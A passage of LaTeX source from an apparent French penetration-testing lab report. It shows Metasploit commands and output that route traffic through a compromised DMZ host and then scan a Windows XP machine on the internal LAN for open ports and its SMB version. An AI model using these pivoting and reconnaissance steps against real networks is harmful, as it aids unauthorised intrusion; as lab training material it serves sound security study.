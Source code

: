 \documentclass[12pt,a4paper,openany]{report}
\begin{document}
	✅ La route est active ! Tout le trafic Metasploit vers 192.168.20.0/24 sera routé via la session 2 (Ubuntu DMZ).
	
	\section{Validation du Pivot}
	
	\subsection{Scan de Port via le Pivot}
	
	Pour valider que le routage fonctionne, nous lançons un scan de ports sur la cible LAN \textit{depuis Metasploit} :
	
	\begin{lstlisting}[caption=Port Scan via Metasploit Auxiliary]
		[msf](Jobs:0 Agents:1) >> use auxiliary/scanner/portscan/tcp
		[msf](Jobs:0 Agents:1) auxiliary(scanner/portscan/tcp) >> set RHOSTS 192.168.20.50
		RHOSTS => 192.168.20.50
		
		[msf](Jobs:0 Agents:1) auxiliary(scanner/portscan/tcp) >> set PORTS 135,139,445,3389
		PORTS => 135,139,445,3389
		
		[msf](Jobs:0 Agents:1) auxiliary(scanner/portscan/tcp) >> run
		
		[+] 192.168.20.50         - 192.168.20.50:445 - TCP OPEN
		[*] 192.168.20.50         - Scanned 1 of 1 hosts (100% complete)
		[*] Auxiliary module execution completed
	\end{lstlisting}
	
	✅ \textbf{Succès !} Le port 445 (SMB) est détecté comme ouvert sur Windows XP, \textbf{à travers le pivot}.
	
	\subsection{Identification de l'OS Cible}
	
	\begin{lstlisting}[caption=Détection de Version SMB]
		[msf](Jobs:0 Agents:1) >> use auxiliary/scanner/smb/smb_version
		[msf](Jobs:0 Agents:1) auxiliary(scanner/smb/smb_version) >> set RHOSTS 192.168.20.50
		RHOSTS => 192.168.20.50
		
		[msf](Jobs:0 Agents:1) auxiliary(scanner/smb/smb_version) >> run
		
		[*] 192.168.20.50:445     - SMB Detected (versions:1)
		[+] 192.168.20.50:445     - Host is running Windows XP SP3 (language:English)
		[*] 192.168.20.50         - Scanned 1 of 1 hosts (100% complete)
		[*] Auxiliary module execution completed
	\end{lstlisting}
	
\end{document}
